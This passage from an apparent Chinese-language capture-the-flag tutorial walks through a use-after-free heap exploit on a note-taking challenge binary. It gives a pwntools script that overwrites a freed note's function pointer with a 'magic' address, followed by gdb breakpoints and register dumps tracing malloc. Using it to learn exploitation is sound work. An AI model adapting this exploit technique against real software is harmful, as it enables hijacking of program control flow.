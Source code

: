 ```python
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```

我们可以具体看一下执行的流程，首先先下断点

**两处 malloc 下断点**

```
gef➤  b *0x0804875C
Breakpoint 1 at 0x804875c
gef➤  b *0x080486CA
Breakpoint 2 at 0x80486ca
```

**两处 free 下断点**

```
gef➤  b *0x08048893
Breakpoint 3 at 0x8048893
gef➤  b *0x080488A9
Breakpoint 4 at 0x80488a9
```

然后继续执行程序，可以看出申请 note0 时，所申请到的内存块地址为 0x0804b008。（eax 存储函数返回值）

```
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x00000000
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x080486cf  →  <add_note+89> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
    0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
    0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
 →  0x80486cf <add_note+89>    add    esp, 0x10
```